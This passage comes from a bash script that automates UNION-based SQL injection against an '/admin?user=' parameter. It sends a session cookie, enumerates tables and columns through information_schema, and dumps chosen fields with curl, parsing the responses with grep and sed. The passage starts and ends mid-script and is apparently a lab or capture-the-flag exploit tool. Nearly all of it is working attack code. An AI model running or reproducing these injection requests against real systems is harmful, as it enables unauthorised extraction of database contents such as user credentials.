 ```bash
		curl -s -H "Cookie: token=$token" -X GET "$url/admin?user=-1+union+select+null,table_name,null,null+from+information_schema.tables+limit+$i,1+--+-" | grep "User" | tail -n 1 | awk '{print $2}'
	done; tput cnorm
}

function extractColumns(){
	echo
	for i in $(seq 0 $number_output); do
		echo -ne "\n${yellowColor}[${endColor}${greenColor}+${endColor}${yellowColor}] Column [${endColor}${greenColor}$i${endColor}${yellowColor}]:${endColor} "
		curl -s -H "Cookie: token=$token" -X GET "$url/admin?user=-1+union+select+null,column_name,null,null+from+information_schema.columns+where+table_name='$table'+limit+$i,1+--+-" | grep "User" | tail -n 1 | awk '{print $2}'
	done; tput cnorm
}

function extractFields(){
	declare -r fields=$(echo $fields | sed 's/,/,0x3a,/g')

        echo
        for i in $(seq 0 $number_output); do
                echo -ne "\n${yellowColor}[${endColor}${greenColor}+${endColor}${yellowColor}] Field [${endColor}${greenColor}$i${endColor}${yellowColor}]:${endColor}"
                curl -s -H "Cookie: token=$token" -X GET "$url/admin?user=-1+union+select+concat($fields),null,null,null+from+$table+limit+$i,1+--+-" | grep "ID" -A 50 | grep "Is administrator:" -B 15 | grep -v "Is administrator:" | sed "s/ID://" | sed "s/<br />/g" | tr -d ">/>" | sed "s/           / /g"
        done; tput cnorm
}

declare -i parameter_counter=0; while getopts ":c:e:t:f:n:h:" arg; do
	case $arg in
		c) token=$OPTARG; let parameter_counter+=1;;
		e) extract=$OPTARG; let parameter_counter+=1;;
		t) table=$OPTARG; let parameter_counter+=1;;
		f) fields=$OPTARG; let parameter_counter+=1;;
		n) number_output=$OPTARG; let parameter_counter+=1;;
		h) help;;
	esac
done

if [ $parameter_counter -eq 0 ]; then
	helpPanel
else
	if [ "$(echo $extract)" == "tables" ]; then
		if [ ! "$number_output" ]; then
			number_output=100
			extractTables $number_output
		else
			extractTables $number_output
		fi
	elif [ "$(echo $extract)" == "columns" ]; then
		if [ ! "$number_output" ]; then
			number_output=50
			extractColumns $number_output
		else
			extractColumns $number_output
		fi
	elif [ "$(echo $extract)" == "fields" ]; then
		if [ ! "$number_output" ]; then
			number_output=30
			extractFields $number_output
```
